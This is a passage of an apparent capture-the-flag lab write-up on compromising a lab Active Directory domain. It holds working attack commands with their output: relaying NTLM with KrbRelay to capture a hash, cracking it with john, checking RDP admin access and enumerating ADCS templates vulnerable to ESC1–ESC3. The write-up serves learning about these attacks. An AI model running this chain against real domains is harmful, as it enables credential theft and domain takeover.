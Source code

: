 I'll let you see how it works using the 2 write ups that i put because my english is really bad lol

So i used [krbrelayx](https://github.com/cube0x0/KrbRelay) because i think ```RemotePotat0``` was a bit patched

```powershell
./runas.exe 'svc_autojoin' 'REDACTED' -l 9 "c:\temp\KrbRelay.exe -ntlm -session 1 -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4"

[*] Auth Context: SHIBUYA\nigel.mills
[*] Rewriting function table
[*] Rewriting PEB
[*] GetModuleFileName: System
[*] Init com server
[*] GetModuleFileName: c:\temp\KrbRelay.exe
[*] Register com server
objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGgQIAAAAAAADfEVQa49rBMEsNJjZa25sGAkgAAGgN//+j1xgJE4ByISIADAAHADEAMgA3AC4AMAAuADAALgAxAAAAAAAJAP//AAAeAP//AAAQAP//AAAKAP//AAAWAP//AAAfAP//AAAOAP//AAAAAA==:

[*] Forcing cross-session authentication
[*] Using CLSID: 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4
[*] Spawning in session 1
[*] NTLM1
4e544c...2555941
[*] NTLM2
4e544...0b000000
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, ReplayDetect, SequenceDetect, UseDceStyle, Connection, AllowNonUserLogons
[*] NTLM3
Nigel.Mills::SHIBUYA:e31...000000000
```
Then we can crack the hash 

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

john hash.txt --show
Nigel.Mills:REDACTED:SHIBUYA:e3...0000
```
```bash
nxc rdp shibuya.vl -u 'Nigel.Mills' -p 'REDACTED'
RDP         10.10.103.65    3389   AWSJPDC0522      [*] Windows 10 or Windows Server 2016 Build 20348 (name:AWSJPDC0522) (domain:shibuya.vl) (nla:True)
RDP         10.10.103.65    3389   AWSJPDC0522      [+] shibuya.vl\Nigel.Mills:REDACTED (admin)
```
## ADCS to win

And finally, if we enumerate ADCS, we can see this :

```bash
proxychains -q certipy find -u 'Nigel.Mills'@'AWSJPDC0522.shibuya.vl' -p 'REDACTED' -dc-ip '10.10.103.65' -vulnerable -stdout -debug

    Template Name                       : ShibuyaWeb
    Display Name                        : ShibuyaWeb
    Certificate Authorities             : shibuya-AWSJPDC0522-CA

    [!] Vulnerabilities
      ESC1                              : 'SHIBUYA.VL\\t1_admins' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'SHIBUYA.VL\\t1_admins' can enroll and template can be used for any purpose
      ESC3                              : 'SHIBUYA.VL\\t1_admins' can enroll and template has Certificate Request Agent EKU set
```